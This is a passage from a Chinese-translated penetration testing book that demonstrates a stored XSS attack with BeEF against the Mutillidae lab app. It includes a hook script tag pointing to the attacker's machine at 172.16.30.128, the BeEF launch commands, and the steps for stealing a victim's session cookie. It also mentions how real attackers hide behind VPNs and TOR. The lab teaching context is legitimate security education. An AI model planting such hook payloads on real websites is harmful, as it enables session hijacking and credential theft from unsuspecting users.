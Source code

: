  *在钩住受害者后，BeEF 能够评估浏览器和操作系统组合的固有漏洞。基于这些发现，BeEF 提供了一系列可以启动的命令模块，比如截图、抓取凭证或过滤 cookie，甚至触发嘟嘟声。钩住的系统只能在联机时访问。然而，一旦上钩，BeEF 可以跟踪系统何时建立 internet 连接以继续针对该系统启动命令。很滑，很吓人！

为了实际展示这一点并帮助理解存储 XSS 攻击的威力，我们将使用 BeEF hook 脚本并将客户端指向 Kali 机器的 BeEF 实例。以下屏幕截图显示了我们的测试场景，其中配置了以下内容：

*   **攻击者的机器**：Kali VM 正在运行一个 BeEF 服务器，监听所有接口（172.16.30.128 是外部 IP 地址）
*   **Web 服务器/应用程序**：OWASP BWA VM，特别是 Multillidae Web 应用程序
*   **客户端**：运行 Internet Explorer 10 的 Windows 7 虚拟机（评估副本）

攻击者可以从 Kali/BeEF 控制头端远程执行命令模块，同时被钩住的受害者继续使用互联网，通常不会注意到危害。在以下截图中所示的实际攻击或黑盒攻击中，黑客通常会部署云或 Kali 或类似机器的临时实例，并将其伪装成多层混淆（VPN、TOR、代理等）充当攻击机器，使目标服务器上的归属或检测更加困难。不管攻击机器的位置如何，在存储的 XSS 中，易受攻击的服务器将继续帮助我们钩住猎物。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_03-1.png)

我们的存储 XSS 场景与 BeEF

我们可以首先从 GUI 应用程序菜单**`Favorites`**栏启动 BeEF XSS，或者通过导航到 BeEF 目录（`cd /usr/share/beef-xss`，然后使用`./beef`运行`beef`脚本，从 CLI 启动 BeEF XSS。当它启动时，**`Terminal`**会话将向我们显示用户界面的通用 URL（`UI URL`为红色）和我们想要用来钩住猎物的脚本（`Hook`为蓝色），如下所示：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_04-1.png)

BeEF 的启动过程告诉我们如何管理实例以及如何连接浏览器。

BeEF 将自动启动浏览器会话，您可以使用*BeEF*的用户名和密码登录。当它第一次启动时，在线和离线浏览器列表将为空。我们将打开一个新选项卡，以访问攻击者的身份访问*Mutillidae Web 应用程序*，在该应用程序中，我们可以在可怜的受害者肯定会看到的字段中输入我们的钩子脚本（**`OWASP 2013`****`A3 - Cross Site Scripting (XSS)`****`Persistent (Second Order)`****`Add to your blog`**），如图所示：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_05-1.png)

Mutillidae 提供了一些可用于存储 XS 的模拟表单。

我们将看到一个博客条目表单，在该表单中，我们可以放下我们的钩子脚本（`<script src="http://172.16.30.128:3000/hook.js"></script>`，然后单击**`Save Blog Entry`**按钮（如以下截图所示）：

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_06.png)

在 web 应用程序的博客功能上植入我们的钩子脚本。

好吧，让我们换个帽子，打开我们可怜的、毫无戒心的运行 IE 10 的 Windows 7 虚拟机！在 windows 虚拟机上，我们将以观察者的身份访问博客�� 这里没什么疯狂的。只需遵循**`OWASP 2013`****`A3 - Cross Site Scripting (XSS)`****`Persistent (Second Order)`****`View someone's blog`**的路径，如下图所示，我们希望看到所有用户的输入。该页面将向我们显示所有条目，包括匿名用户包含脚本的输入。我们知道博客页面是易受攻击的，因为我们在[第 5 章](Mastering%20Kali%20Linux%20for%20Web%20Penetration%20Testing_split_000.html#)、*使用 OWASP ZAP 和 Burp 套件*进行代理操作时发现了它，测试结果表明它可能具有 XSS 脚本漏洞（如下图所示）。在这里，我们知道服务器在从后续受害者的响应中重复这些条目之前，没有验证这些条目的内容。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_07.png)

从受害者站点浏览到受影响的博客。

一旦我们导航到 blog 视图（如下图所示），我们将看到一个空白区域，匿名用户显然没有输入任何内容。在这一点上，他们没有理由相信自己被黑客攻击或受到恶意 XSS 攻击。

![](https://www.packtpub.com/img/9781784395070/img/B03918_06_08-1.png)

所有这些浪费了的潜力（隐藏在脚本中）都存在于一个非常棒的博客中。

我们的卡利盒子知道其他情况；查看我们的 BeEF XSS 框架的控制 UI，我们可以看到运行 IE 10 的 Windows 7 框已经签入并正在报到。因为浏览器在宣布它们可以支持什么和不能支持什么方面非常有帮助，BeEF 非常了解我们可以对我们刚刚上钩的受害者实施什么样的黑客和技巧，在下面的屏幕截图中，我们看到我搜索了与*cookie*相关的命令，从中选择了**`Get Cookie`****`Module Tree`**的**`Browser`**部分**`Hooked Domain`**部分，并运行它以获取在受害者浏览器和 Mutillidae web 服务器之间使用的会话 cookie。除了证明存在 XSS 漏洞之外，我们还可以使用其他有用的攻击，这些攻击可以帮助我们获取社交媒体登录状态、已安装的软件、浏览历史记录，以及其他任何可以帮助我们更好地进行攻击的攻击重新划分目标环境。
